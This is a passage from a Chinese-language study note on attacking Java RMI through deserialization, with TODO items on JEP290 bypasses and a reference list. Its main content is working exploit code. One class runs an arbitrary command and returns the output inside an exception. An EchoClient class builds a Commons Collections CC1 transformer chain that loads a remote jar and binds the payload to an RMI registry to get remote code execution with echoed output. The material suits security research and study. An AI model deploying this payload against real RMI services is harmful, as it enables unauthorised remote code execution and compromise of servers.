**这些条件较为苛刻，真实场景中几乎不会出现**

#### 对于server的攻击（利用codebase）

#### 对于client的攻击（利用codebase）

### 利用JNDI注入攻击Client

* **见JNDI注入部分**

## 补充（TODO）

* 关于为了通过bind等方法的参数检查而采取的动态代理包装的问题：动态代理包装是否可以自定义（被攻击者没有该类），它为什么可以过JEP290
* JRMPClient发起DGC请求的过程分析
* jdk8u231后DGC客户端的限制
* jdk8u231后的利用链分析
* 为什么jdk8u231后的lookup要进行修改，增加`Reflections.setFieldValue(var3,"enableReplace",false);`
* jdk241后无法通过JRMP协议进行反连，是否能找到链子通过RMI client反连

### JRMPClient在shiro反序列化中的使用

见shiro550分析

## 回显马的编写

基本思路：

* RMI的任何一方被攻击时，都会返回异常对象
* 需要通过任意代码执行（注意与任意命令执行区别），抛出我们定义的异常对象
  * 代码执行远程加载一个jar包，执行任意代码抛出异常（出网）
  * 通过CC3等动态加载字节码的链，执行任意代码抛出异常：未成功，因为类的静态代码块不允许抛出异常，暂未找到解决办法

### 远程加载jar包

```java
// 远程加载的代码，很好理解，将命令执行的结果交给异常对象抛出
import java.io.BufferedReader;
import java.io.InputStreamReader;

public class ErrorBaseExec {

    public static void do_exec(String args) throws Exception
    {
        Process proc = Runtime.getRuntime().exec(args);
        BufferedReader br = new BufferedReader(new InputStreamReader(proc.getInputStream()));
        StringBuilder sb = new StringBuilder();
        String line;
        while ((line = br.readLine()) != null)
        {
            sb.append(line).append("\n");
        }
        String result = sb.toString();
        throw new Exception(result);
    }
}
```

```java
// 这里是通过cc1打的register，并不适用所有版本和攻击对象
// 代码的重点在于通过`Transformer[] transformers = new Transformer[]`执行的任意代码，这里是利用它加载了一个远程jar包，并加载其中的类，利用不同的链打client、server，是类似的思路
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

import java.util.HashMap;
import java.util.Map;


public class EchoClient {
    public static Constructor<?> getFirstCtor(final String name)
            throws Exception {
        final Constructor<?> ctor = Class.forName(name).getDeclaredConstructors()[0];
        ctor.setAccessible(true);

        return ctor;
    }

    public static void main(String[] args) throws Exception {
        String ip = "127.0.0.1"; //注册中心ip
        int port = 1099; //注册中心端口
        String remotejar = ""; // 加载jar包的地址
        String command = "whoami";

        try {
            final Transformer[] transformers = new Transformer[] {
                    new ConstantTransformer(java.net.URLClassLoader.class),
                    new InvokerTransformer("getConstructor",
                            new Class[] { Class[].class },
                            new Object[] { new Class[] { java.net.URL[].class } }),
                    new InvokerTransformer("newInstance",
                            new Class[] { Object[].class },
                            new Object[] {
                                    new Object[] {
                                            new java.net.URL[] { new java.net.URL(remotejar) }
                                    }
                            }),
                    new InvokerTransformer("loadClass",
                            new Class[] { String.class },
                            new Object[] { "org.example.echo.ErrorBaseExec" }), // 必须写完整的类名
                    new InvokerTransformer("getMethod",
                            new Class[] { String.class, Class[].class },
                            new Object[] { "do_exec", new Class[] { String.class } }),
                    new InvokerTransformer("invoke",
                            new Class[] { Object.class, Object[].class },
                            new Object[] { null, new String[] { command } })
            };
            Transformer transformedChain = new ChainedTransformer(transformers);
            Map innerMap = new HashMap();
            innerMap.put("value", "value");

            Map outerMap = TransformedMap.decorate(innerMap, null,
                    transformedChain);
            Class cl = Class.forName(
                    "sun.reflect.annotation.AnnotationInvocationHandler");
            Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
            ctor.setAccessible(true);

            Object instance = ctor.newInstance(Target.class, outerMap);

            Registry registry = LocateRegistry.getRegistry(ip, port);
            Remote r = (Remote) Proxy.newProxyInstance(Remote.class.getClassLoader(), new Class[]{Remote.class}, (InvocationHandler) instance);
            registry.bind("liming", r);
        } catch (Exception e) {
            try {
                System.out.print(e.getCause().getCause().getCause().getMessage());
            } catch (Exception ee) {
                throw e;
            }
        }
    }
}
```

### 动态加载字节码


## 借助BaRMIe对RMI进行攻击

## Ysoserial的RMI相关payload分析

## 参考

* https://paper.seebug.org/1091/
* [一次攻击内网rmi服务的深思 (codersec.net)](https://www.codersec.net/2018/09/一次攻击内网rmi服务的深思/)
* [由浅入深RMI安全 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/324692.html)
* [针对RMI服务的九重攻击 - 上 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/7930?time__1311=n4%2BxnD0DyDu730KK40HpADR0Dcmm13DgirYD&u_atoken=94efaa4898ee2e0ab761121cba454999&u_asession=01Fu4pMlk-GmfvC7Knkk222z2BeQPdyZAowrs32a6fFyw_PhSHEFZeMVUY6JYX2vb5JB-YY_UqRErInTL5mMzm-GyPlBJUEqctiaTooWaXr7I&u_asig=05_GgaQvzEB7zO7EbJWoJwGcmNta3X97A9O7ULkw0sV3zOWWuy0lpmkiUAgKTexJFaY6IkhBxoUPYwrGA7V7bv4sN81o_D9tdd4JMBR3l_SnQaFB9MUJv0dNMi-6m1rVNVswxPIJsUlVCgI-RFN5fgki3HIEy1mwtSCYCZ-0bbwcDBzhvSc0Kr8URjOX9Xe4tkcagRx2bZVyIgXq4Kbi-1YfujrXhwMQrtelSRqyqUs-2YGp00FM-Zw3GyrO5hPvUChXVyg8Py7SsCIvJ1wi5QiY8KNy6JoOjsoWf5AIB-DkR6gx6UxFgdF3ARCQ86jS_u_XR5hatHQVh06VuUZ-D1wA&u_aref=kKU%2BOjTsgipLZnjwyRrGf%2F%2F44Gc%3D#toc-16)
* [JAVA RMI反序列化知识详解-安全客 - 安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/204740#h3-9)
* [针对RMI服务的九重攻击 - 下 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/7932?time__1311=n4%2BxnD0DyDu730KGQDCDlhjepQxfxxxYvqPN%3Dx#toc-4)
* [搞懂RMI、JRMP、JNDI-终结篇 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/7264?u_atoken=66db4a29790194af946085e31d265954&u_asession=01Z102eTx-uSlLuAwi0dCOfTlZ1DAFIHNiE6_eOZYhv7v4Ca4wEAWF7mOysAqiJeUnJB-YY_UqRErInTL5mMzm-GyPlBJUEqctiaTooWaXr7I&u_asig=05vF4wabVJwBU0xI2oZn8lp8jaeCvPiy6h51Bf3ExTnarCKPiuyhsRzLohQ7J59WbYPlR19W0CvSTFgSipF_qAhfwBAxgh7ePszgE7Ts8nKZRdCEdz9GH1cMwgEMPkZfLpPwk273ZJHVT0M7dEYHd62EO6vkDvdNuvmpmKgYl3mjvBzhvSc0Kr8URjOX9Xe4tkczwPXd8IUf5OjAcGuKlUcbcq5No9LJZRZv93uLQFxxLwdfXLcRCQaymMSmIYnf9A-S3eRSGCThYuwFP9qLJ1uNnEZmbKI6afDLEq7lsGo1R6gx6UxFgdF3ARCQ86jS_u_XR5hatHQVh06VuUZ-D1wA&u_aref=KJw%2F7%2BnrtKA4gzj11QEfHsZKcnI%3D&time__1311=n4%2BxcD0Dgi0%3DGQDCD9lDlhjU57IKRob2wTTD#toc-0)
* [JAVA RMI 反序列化攻击 & JEP290 Bypass分析 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/8706?time__1311=n4%2BxnD0DcDu0eD5Y40HpDUxYqqsDgGx7w9vxPhD#toc-15)
* [Java安全之RMI反序列化 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/9053?time__1311=n4%2BxnD0DuAiti%3DGkD9D0x05Sb%2BDOWr%3DKTee%3Dvk4D#toc-2)
* [code2sec.com/CVE-2017-3241 Java RMI Registry.bind()反序列化漏洞.md at master · bit4woo/code2sec.com (github.com)](https://github.com/bit4woo/code2sec.com/blob/master/CVE-2017-3241 Java RMI Registry.bind()反序列化漏洞.md)

